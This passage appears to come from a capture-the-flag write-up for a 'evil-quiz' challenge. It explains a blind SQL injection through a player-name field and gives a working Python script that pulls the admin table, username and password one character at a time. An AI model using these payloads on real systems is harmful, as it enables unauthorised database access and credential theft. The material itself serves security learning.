 Other common names like `user`, `accounts`, `account` were not working either. MySQL has a special database `information_schema.tables` which stores information about the other tables in the database. We can use the injection vulnerability to read this information character by character. My idea was to use names like the following:

```
testerbtgsg54g45' union select table_schema, table_name, 1, 1 from information_schema.tables where table_name like binary '<char>%'-- 
```

To explain, the first part of the query is a nonsense name that doesn't exist. We then do a UNION to select a table_name from the information schema. Note that we select 4 values in order to match the 4 columns of the table that is currently being searched. The last part is where we could put a letter and then a wildcard. Then we know that whichever letter returned "1 other player(s) with the same name as you!" would be the letter a table starts with. And we could go character by character. 

## Exfiltrating the Data

From here I wrote a script to find the table name and the username and password of the admin:

```python
#!/usr/bin/env python3

import requests
import re
import sys

ENDPOINT = 'https://hackyholidays.h1ctf.com/evil-quiz/'
LOWERCASE = 'abcdefghijklmnopqrstuvwxyz'
ALL_CHARS = LOWERCASE + 'ABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890' + '-$_'
table_name_exploit = "union select table_schema, table_name, 1, 1 from information_schema.tables where table_name like binary "
username_exploit = "union select 1, 2, 3, 4 from admin where username like binary "
password_exploit = "union select 1, 2, 3, 4 from admin where password like binary "
cookie = ''

def process(exploit, charset=LOWERCASE):
    accumulator = ''
    while True:
        for char in charset:
            if run_exploit(exploit + f"'{accumulator}{char}%'"):
                accumulator += char
                break
        print(f"Result: '{accumulator}%'")

def run_exploit(exploit):
    payload = build_payload(exploit)
    name = requests.post(ENDPOINT, cookies=cookie, data = {'name': payload})
    start = requests.post(ENDPOINT + 'start', cookies=cookie, data = {'ques_1': 0, 'ques_2': 0, 'ques_3': 0})
    score = requests.get(ENDPOINT + 'score', cookies=cookie)
    
    success = int(re.search("There is ([0-9]+) other player\(s\) with the same name as you!", str(score.content)).groups()[0]) > 0
    return success

def build_payload(exploit):
    return "testerbtgsg54g45' " + exploit + "-- "

r = requests.get(ENDPOINT)
cookie = { 'session': r.cookies['session'] }

sys.argv[1] == 'TABLE_NAME' and process(table_name_exploit) # admin
sys.argv[1] == 'USERNAME' and process(username_exploit)
sys.argv[1] == 'PASSWORD' and process(password_exploit, charset=ALL_CHARS)
```